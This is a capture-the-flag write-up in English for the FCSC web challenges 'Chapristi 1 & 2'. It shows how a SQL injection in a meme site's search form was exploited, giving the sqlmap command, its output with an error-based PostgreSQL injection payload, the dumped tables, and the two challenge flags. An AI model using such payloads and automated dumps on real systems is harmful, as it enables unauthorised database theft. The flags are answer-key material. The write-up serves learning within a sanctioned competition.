

# Web / Chapristi 1 & 2

## Challenge 1 :star:
> Un ami m'a fourni un site pour stocker mes memes, et il me dit qu'il y a deux flags cachés dedans. Pouvez-vous m'aider à les trouver ? Pour cette première épreuve, votre but est de trouver un meme caché.

## Challenge 2 :star::star:
> Un ami m'a fourni un site pour stocker mes memes, et il me dit qu'il y a deux flags cachés dedans. Pouvez-vous m'aider à les trouver ?

## Inputs
- Web site at `https://chatpristi.france-cybersecurity-challenge.fr/`

## Solution
The search form looks vulnerable to `SQL injection`: a basic quote throws the following error:
```
pq: operator is not unique: unknown % unknown
```
Googling around shows this comes from a Postgres database.

So I jumped onto `sqlmap` (which I shouldn't have...) in batch mode, while I was poking around manually.
Soon enough, `sqlmap` exploited and dumped the database automagically!
```console
$ sqlmap -r search.req --batch --dump
(...)       ___
[22:43:35] [INFO] parsing HTTP request from 'search.req'
[22:43:35] [INFO] resuming back-end DBMS 'postgresql'
[22:43:36] [INFO] testing connection to the target URL
got a 301 redirect to 'https://chatpristi.france-cybersecurity-challenge.fr/?search=boss--%20-'. Do you want to follow? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=boss-- -') AND 5002=CAST((CHR(113)||CHR(106)||CHR(112)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (5002=5002) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(118)||CHR(112)||CHR(113)) AS NUMERIC) AND ('ecMU'='ecMU
---
[22:43:36] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
(...)
Database: public
Table: memes
[7 entries]
+----+-----------------------------------+----------------------------------------------------------------------+
| id | tags                              | filename                                                             |
+----+-----------------------------------+----------------------------------------------------------------------+
| 1  | fcsc|flag                         | 3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg |
| 2  | fcsc|intro|boss                   | 447de8ebbe9d9bf419dab0543f42fa456e99def65bdfa2e3aeed1cf771b50589.jpg |
| 3  | anniversaire|birthday|flag|grumpy | 743ad5c5eb260d00cff5ba193619f714b203f91ab87017cc74b65a5b466ba79a.jpg |
| 4  | fcsc|crypto                       | 7c2df8488bb263c868573aaf8e7d1fa0426149fb0c905ae5b71d9b0c3da37b8e.jpg |
| 5  | fcsc|révisions|ti83               | ec38bc3fe51533a81afba341a1bf85748a83214ca5fcb25c10d292212235b0ab.jpg |
| 6  | fcsc|web|crypto|challenge         | f7f997781b691fbaaee2d4c9778d534a3c05b0c4ecd8ea0e7c98035e738d8f68.jpg |
| 7  | fcsc|fatigue|tired|tryhard        | a1826ad7aa90c51dfef5e2e87237748a08abaf8c5932b5d42a16b744d3d7c2f7.jpg |
+----+-----------------------------------+----------------------------------------------------------------------+
(...)
Database: public
Table: ___youw1lln3verfindmyfl4g___
[1 entry]
+----+------------------------------------------------------------------------+
| id | fstbg0adwb8f5upmg                                                      |
+----+------------------------------------------------------------------------+
| 1  | FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5} |
+----+------------------------------------------------------------------------+
(...)
```

So we get out first flag: FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}

We also get a list of seven .jpg pictures, while only six were present on the website...
The one that is missing is:
- `3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg`.

Dump it in the search form... but the image is not displayed.

Looking at the source code of the meme collection page shows that the images are stored in /static:
```html
<figure class="image">  
    <a href="/?search=447de8ebbe9d9bf419dab0543f42fa456e99def65bdfa2e3aeed1cf771b50589.jpg">
        
    </a>
</figure>
```

So we finally get that image at:
- `https://chatpristi.france-cybersecurity-challenge.fr/static/3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg`



This gives us the other flag, for the missing meme: FCSC{1D32671928B0DFD5E0B92B57871B1D49}

## Flags
- FCSC{1D32671928B0DFD5E0B92B57871B1D49}
- FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
